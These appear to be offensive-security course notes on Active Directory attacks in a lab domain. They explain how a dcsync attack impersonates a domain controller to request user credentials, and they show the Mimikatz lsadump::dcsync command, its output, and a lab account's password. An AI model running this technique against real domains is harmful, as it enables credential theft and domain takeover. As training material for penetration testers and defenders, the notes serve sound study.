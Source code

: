In this section, we learned how to forge service tickets by using the password hash of a target SPN
+ While we used an SPN run by a user account in the example, we could do the same for SPNs run in the context of a machine account

### Domain Controller Synchronization (dcsync)
In production environments, domains typically rely on more than one domain controller to provide redundancy
+ The _Directory Replication Service_ (DRS) Remote Protocol uses _replication_ to synchronize these redundant domain controllers
+ A domain controller may request an update for a specific object, like an account, using the _IDL_DRSGetNCChanges_ API

Luckily for us, the domain controller receiving a request for an update does not check whether the request came from a known domain controller
+ Instead, it only verifies that the associated SID has appropriate privileges
+ If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed

To launch such a replication, a user needs to have the _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights
+ By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these rights assigned

If we obtain access to a user account in one of these groups or with these rights assigned, we can perform a _dcsync_ attack in which we impersonate a domain controller
+ This allows us to request any user credentials from the domain

To perform this attack, we'll use Mimikatz on a domain-joined Windows machine, and _impacket-secretsdump_ on our non-domain joined Kali machine for the examples of this section

Let's begin with Mimikatz and start by connecting to CLIENT75 as _jeffadmin_ with the password _`BrouhahaTungPerorateBroom2023!`_
+ As _jeffadmin_ is a member of the _Domain Admins_ group, we already have the necessary rights assigned

#### dcsync on Windows with Mimikatz 
Once connected via RDP, let's open a PowerShell window and launch Mimikatz in **`C:\Tools`**
+ For Mimikatz to perform this attack, we can use the **`lsadump::dcsync`** module and provide the domain username for which we want to obtain credentials as an argument for **`/user:`**
+ For the purposes of this example, we'll target the domain user _dave_ 
```
lsadump::dcsync /user:<DOMAIN>\<USER>
```
+ Example:
```

mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
```